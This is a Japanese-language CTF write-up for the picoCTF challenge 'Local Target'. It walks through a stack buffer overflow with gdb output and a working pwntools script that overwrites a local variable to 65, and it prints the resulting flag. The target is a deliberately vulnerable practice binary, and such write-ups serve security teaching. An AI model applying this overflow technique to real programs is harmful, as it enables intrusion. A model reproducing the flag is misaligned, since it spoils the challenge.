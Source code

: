 # Local Target:Binary Exploitation

Smash the stack\
Can you overflow the buffer and modify the other local variable? The program is available [here](https://github.com/colza12/ctf_writeup/blob/main/picoGym%20Exclusive/Local%20Target/local-target). You can view source [here](https://github.com/colza12/ctf_writeup/blob/main/picoGym%20Exclusive/Local%20Target/local-target.c). And connect with it using: `nc saturn.picoctf.net 60800`

# Solution

とりあえず、`nc saturn.picoctf.net 60800`を実行してみる。
```
$ nc saturn.picoctf.net 60800
Enter a string: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

num is 1633771873
Bye!
```
1633771873=0x61616161なので、aが4文字分出力されている。
ソースコードを見てみる。
```c
if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }
```
出力される数字が65であれば良いようだ。
```c
int num = 64;
```
とあり、逆アセンブルの結果、このnumは
```
0x0000000000401242 <+12>:    mov    DWORD PTR [rbp-0x8],0x40
```
rbp-0x8にあるようだ。バッファオーバーフローさせてrbp-0x8を65=0x41に書き換える。
main+68にブレイクポイントを設定してバッファオーバーフローさせたときのrbpを見てみる。
```
(gdb) break *main+68
Breakpoint 1 at 0x40127a
(gdb) r
Starting program: /home/colza-picoctf/local-target 
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter a string: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 1, 0x000000000040127a in main ()
(gdb) x/100bx $rbp-0x8
0x7fff61eb63e8: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fff61eb63f0: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fff61eb63f8: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fff61eb6400: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fff61eb6408: 0x00    0x12    0x40    0x00    0x00    0x00    0x00    0x00
```
aが32文字分ある。56文字入力したので`24文字+65`を入力すれば良さそう。
以下、実行コード。
```python
from pwn import *

p = remote("saturn.picoctf.net", 60800)

payload = b"a"*24
payload += p64(0x00000041)

p.sendline(payload)

p.interactive()
```
実行してみる。
```
Enter a string: 
num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_ee58441a}
```
フラグが得られた。

`picoCTF{l0c4l5_1n_5c0p3_ee58441a}`
